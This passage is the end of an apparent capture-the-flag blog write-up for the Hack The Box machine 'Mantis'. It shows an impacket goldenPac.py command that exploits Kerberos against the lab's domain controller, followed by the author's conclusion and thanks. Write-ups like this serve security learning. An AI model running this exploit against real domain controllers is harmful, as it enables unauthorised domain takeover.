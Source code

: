 Now run the exploit.
```console
root@EdgeOfNight:~/Documents/Github/impacket/examples# python goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
```
<a href="/img/blog/htb-mantis/htb-mantis-11.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-mantis/htb-mantis-11.png"></a>

### Congratulations!
***

# Conclusion
An amazing box! Would rate it as one of the better ones for sure. I've definitely learnt a lot while working on this masterpiece. To conclude, I'd love to thank [bitvijays](https://twitter.com/bitvijays){:target="_blank"} for helping me when I got stuck on the **goldenPac** part. 

~V3


